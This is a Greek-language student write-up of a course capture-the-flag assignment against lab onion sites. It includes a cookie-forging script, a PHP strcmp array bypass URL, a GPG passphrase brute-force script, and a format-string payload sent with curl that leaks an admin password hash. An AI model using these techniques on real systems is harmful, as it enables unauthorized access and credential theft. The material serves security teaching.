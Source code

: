 # Όνομα ομάδας: hackerz - Εργασία 2
**Μέλη**:
 - Κώστας Χατζόπουλος - 1115201300202
 - Βασίλειος Πουλόπουλος - 1115201600141


## Ερώτημα 1 
Αρχικά, πλοηγηθήκαμε στο site ( http://2fvhjskjet3n5syd6yfg5lhvwcs62bojmthr35ko5bllr3iqdb4ctdyd.onion ) , στον κώδικα html και στα cookies. Τα 2 πράγματα που μας κίνησαν το ενδιαφέρον ήταν το σχόλιο στον κώδικα αλλά και το οτι μέσω του cookie μπορούσαμε να αλλάξουμε τον αριθμό των visitors.
### Για το σχόλιο
Μπήκαμε στο άρθρο που είχε το σχόλιο ( https://blog.0day.rocks/securing-a-web-hidden-service-89d935ba1c1d ) και δοκιμάζαμε ότι έλεγε μήπως βρίσκαμε κάτι που δεν είχε γίνει. Πράγματι το /server-info ( http://2fvhjskjet3n5syd6yfg5lhvwcs62bojmthr35ko5bllr3iqdb4ctdyd.onion/server-info ) δεν ήταν κλειδομένο και μπήκαμε να δούμε αν θα βρούμε πληροφορίες που μας ενδιαφέρουν. 

Βρήκαμε **(1)** πως υπάρχει και **προσωπικό site του ys13**  το οποίο βρισκόταν σε άλλο link ( http://jt4grrjwzyz3pjkylwfau5xnjaj23vxmhskqaeyfhrfylelw4hvxcuyd.onion/ ) το οποίο οδηγεί σε μία φόρμα εισόδου που ζητάει κωδικό και **(2)** πως επιτρέπεται η είσοδος σε αρχεία με κατάληξη .phps. 

### Για το cookie
Παρατηρήσαμε πως το cookie ηταν ένα string της μορφής base64(number:sha256(number)) οπότε βάζοντας στο number οτιδήποτε, μπορούσε να τυπωθεί στη σελίδα κάτω από το visitor number. Έτσι, φτιάξαμε ένα script (cookie.py) στο οποίο δίναμε την είσοδο που θέλαμε και υπολόγιζε το αντίστοιχο cookie.

**cookie.py:**

    from hashlib import sha256
    from base64 import b64encode
    
    print("Give input")
    x = input()
    y = sha256(x.encode())
    y = y.hexdigest()
    final = x+":"+y
    encoded = b64encode(final.encode('ascii'))
    print(encoded.decode('ascii'))

### Personal YS13 website
Μέσω του html κώδικα της φόρμας εισόδου, είδαμε ότι έκανε GET request στο access.php. 
Αφού επιτρέπεται η είσοδος στα .phps αρχεία δοκιμάσαμε να μπούμε στο /access.phps και τα καταφέραμε ( http://jt4grrjwzyz3pjkylwfau5xnjaj23vxmhskqaeyfhrfylelw4hvxcuyd.onion/access.phps ). Είχαμε πλέον πρόσβαση στον κώδικα της access.php. Tο περιεχόμενο της μεταβλητής **$desired** το υπολογίσαμε μέσω script που φτιάξαμε (desired.py)

**desired.py:**

    number = 7
    p = 1
    mult = 0
    counter = 0
    while  1:
	    mult = p*number
	    if (str(mult)).count('7') != 0: 
		    counter += 1    
		    print(str(counter) + ": " + str(mult))    
	    if counter == 48:    
		    print(mult)    
		    break    
	    p += 1

και μας έβγαλε τον αριθμό **1337**, αλλά έπρεπε το μέγεθος του **$desired** να είναι 7, οπότε βάλαμε για username τον αριθμό **0001337**, ο οποίος ήταν και ο σωστός. Για το password ψάξαμε αν μπορούμε να διαπεράσουμε την **strcmp** της php. Ψάχνοντας στο google, βρήκαμε αυτό το [άρθρο](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016) . Στείλαμε το password σαν array και η strcmp μας γύρισε NULL αντί για error. Στην php ισχύει ότι NULL == 0, οπότε διαπεράσαμε τη συνθήκη της if. ( http://jt4grrjwzyz3pjkylwfau5xnjaj23vxmhskqaeyfhrfylelw4hvxcuyd.onion/access.php?user=0001337&password[]=%22%22 ). Φτάσαμε στο μήνυμα **"Hi! You can find my blog posts at directory: /blogposts7589109238!"**.  Μπήκαμε στα blog posts ( http://jt4grrjwzyz3pjkylwfau5xnjaj23vxmhskqaeyfhrfylelw4hvxcuyd.onion/blogposts7589109238 ) και κάναμε access τον φάκελο που περιέχει τα post ( http://jt4grrjwzyz3pjkylwfau5xnjaj23vxmhskqaeyfhrfylelw4hvxcuyd.onion/blogposts7589109238/blogposts/ ). 

Εκτός από τα posts (**diary.html**, **diary2.html**) βρήκαμε και το **post3.html**.  To διαβάσαμε και κρατήσαμε δύο πράγματα που φανταζόμασταν ότι θα μας ήταν χρήσιμα. Τη λέξη "**raccoon**" και την τελευταία πρόταση που έλεγε πως  τα backup θα τα βρεί ο #100013 χρήστης που θα μπει στο site. Έχοντας τη δυνατότητα να αλλάξουμε το visitor number, το αλλάξαμε σε 100013 και μας εμφάνισε το μήνυμα 

>  Visitor number
> Congrats user #100013! Check directory /sekritbackups2444 for latest
> news... 

Έτσι βρήκαμε τα backup files ( http://2fvhjskjet3n5syd6yfg5lhvwcs62bojmthr35ko5bllr3iqdb4ctdyd.onion/sekritbackups2444/ ). Στο αρχείο **notes.txt.truncated**, διαβάσαμε πως κάνει το encrypt για τα files του. Φανταζόμασταν πως το "raccoon" είναι το string που θέλαμε αλλά δεν ξέραμε την ημερομηνία. Έτσι φτιάξαμε ένα script (decrypt.py) το οποίο δοκίμαζε όλες τις ημερομηνίες του 2020 με τη λέξη "raccoon" και έτσι βρήκαμε τη σωστή ημερομηνία η οποία ήταν "**2020-2-12**". 


**decrypt.py:**

    import hashlib
    import os
   
    def encrypt_string(hash_string):
        sha_signature = \
            hashlib.sha256(hash_string.encode()).hexdigest()
        return sha_signature
    
    for y in range(1, 12):
        for i in range(1, 31):
            x = "2020-" + "{:02d}".format(y) + "-" + "{:02d}".format(i) + " raccoon"
            print(x)
            sha_signature = encrypt_string(x)
            cmd1 = 'echo ' + sha_signature + ' | gpg --batch --yes --passphrase-fd 0 /home/msi/Desktop/sekritbackups2444/firefox.log.gz.gpg'
            cmd2 = 'echo ' + sha_signature + ' | gpg --batch --yes --passphrase-fd 0 /home/msi/Desktop/sekritbackups2444/signal.log.gpg'
            print(cmd1)
            os.system(cmd1)
            os.system(cmd2)

Κάναμε decrypt τα αρχεία.

 Στο **firefox.log** τρέξαμε ένα bash script(remove.sh)

**remove.sh:**

    grep -v "https://en.wikipedia.org/wiki/The_Conversation" firefox.log > out.txt

 για να φύγουν όλα τα link του wikipedia, οπότε μας έμεινε το link του github( https://github.com/asn-d6/tor/ ). Μπήκαμε και είδαμε το τελευταίο commit που είχε κάνει ο κύριος **George Kadianakis** . Το link ήταν το: [https://github.com/asn-d6/tor/commit/9892cc3b12db4dc1e8cbffec8e18bb18cbd77d0f](https://github.com/asn-d6/tor/commit/9892cc3b12db4dc1e8cbffec8e18bb18cbd77d0f) . 
Μετά μπήκαμε στο **signal.log** και πήραμε τον κωδικό και αντικαταστήσαμε τον κωδικό του τελευταίου commit στο παραπάνω url με αυτόν που πήραμε από το signal.log ( [https://github.com/asn-d6/tor/commit/2355437c5f30fd2390a314b7d52fb3d24583ef97](https://github.com/asn-d6/tor/commit/2355437c5f30fd2390a314b7d52fb3d24583ef97) ). Έτσι φτάσαμε στις οδηγίες για την εύρεση των συντεταγμένων όπου για < team name > βάλαμε το όνομα της ομάδας μας "hackerz". Ετσι βρήκαμε τις συντεταγμένες.   

Συντεταγμένες: **(47.5284864714, 4.8260977302)**


## Ερώρημα 2
Από το diary2.html ( http://jt4grrjwzyz3pjkylwfau5xnjaj23vxmhskqaeyfhrfylelw4hvxcuyd.onion/blogposts7589109238/blogposts/diary2.html ) κρατήσαμε 2 πράγματα. Το link του github με τον κώδικα του pico server ( https://github.com/chatziko/pico ) και το link για τον server( 4tpgiulwmoz4sphv.onion ). Στήσαμε τον server στα μηχανήματά μας ώστε να τον τεστάρουμε και για να δούμε τον κώδικα αναλυτικά. 

Αρχικά είδαμε το σχόλιο "TODO" και παρατηρήσαμε την vulnerable printf. τυπώσαμε addresses βάζοντας για input μερικά %08x και πράγματι μας τα τύπωνε. Στη συνέχεια βάλαμε %s στο τέλος των %08x. Αν υπήρχε κάποιο string εκεί θα τυπωνόταν, οπότε αρχίσαμε από την πρώτη διεύθυνση να προσπαθούμε να τυπώσουμε κάποιο string, αν δε βρίσκαμε κάτι, προσθέταμε ένα %08x πριν το %s ωστε να πάμε στην επόμενη διεύθυνση να τυπώσουμε το string. Αυτό το συνεχίσαμε μέχρι να βρούμε κάτι χρήσιμο. 

Φτιάξαμε ένα script που μας έφτιαχνε το input με όσα %08x θέλαμε και έτρεχε το δοκίμαζε(input.py).

**input.py:**

    import os
    
    from base64 import b64encode    
    x =  '%08x '    
    baseInput =  "%08x "     
    
    for i in  range(0, 5):    
	    baseInput = baseInput + x    
    baseInput +=  "%s:lalala"    
    encoded = b64encode(baseInput.encode('ascii'))
    print(baseInput)    
    curl =  "curl -I 'http://127.0.0.1:8000/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:77.0) Gecko/20100101 Firefox/77.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Authorization: Basic "  + encoded.decode('ascii') +"'"    
    print(curl)    
    os.system(curl)    
    print('\n\n')

Μετά από μερικές προσπάθειες βρήκαμε τα στοιχεία του πρώτου χρήστη (που ήταν της μορφής **name:md5(password)**) που βρίσκονταν στο αρχείο **passwd** . Μεταφέραμε ακριβώς το ίδιο input (** %08x %08x %08x %08x %08x %08x %s**) στο server της άσκησης και το output ήταν: 

> http://4tpgiulwmoz4sphv.onion is requesting your username and
> password. The site says: “Invalid user:  5807d010 15 5656951d ffffffff
> d00 5806d155 admin:f68762a532c15a8954be87b3d3fc3c31”


Άρα το md5 hash του κωδικου του admin είναι: **f68762a532c15a8954be87b3d3fc3c31** 
Ψάξαμε σε μερικά site το hash για να βρόυμε το password και μετά από μερικές προσπάθειες βρήκαμε ένα το οποίο μας έδωσε το password "you shall not pass" :D 
([https://md5.gromweb.com/?md5=f68762a532c15a8954be87b3d3fc3c31](https://md5.gromweb.com/?md5=f68762a532c15a8954be87b3d3fc3c31)). 
Όταν αποκτήσαμε πρόσβαση, η απάντηση βρισκόταν εκεί.
 
Για να ολοκληρωθεί το Plan X χρείάζεται ένας **ηλιακός  αναλυτής ανέμου**...


Σημείωση: Τα python scripts είναι γραμμένα σε **python3**.
